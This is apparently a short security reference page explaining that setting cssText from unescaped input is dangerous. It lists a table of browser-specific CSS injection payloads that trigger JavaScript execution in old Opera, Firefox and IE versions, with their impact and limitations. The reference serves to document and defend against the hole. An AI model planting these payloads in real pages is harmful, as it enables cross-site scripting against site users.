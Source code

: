 # Details #

Setting a CSSStyleDeclaration by using unescaped input could be dangerous.
It is mostly browser specific. The following table shows Javascript based attacks.

|**Tag** | **Browser** | **Version**  | **`CssText` attack vector** | **Impact** | **Limitations/Notes** |
|:-------|:------------|:-------------|:----------------------------|:-----------|:----------------------|
| `*`    | Opera       | 10.63        | -o-link:'javascript:alert(1)';-o-link-source:current | Js Exec with user click | User Interaction      |
| `*`    | Firefox     | 3.x.x/4.x    |  -moz-binding:url(//vi.ct.im/page?par=val#checkbox); | Js Exec    | only on same site - SOP compliance - so a XML Inj or upload is needed. Content-type: text/xml or application/xml (? - to be confirmed)  |
| `*`    | IE          | 7/8          |  a:expression(write(1))     | Js Exec    | ?                     |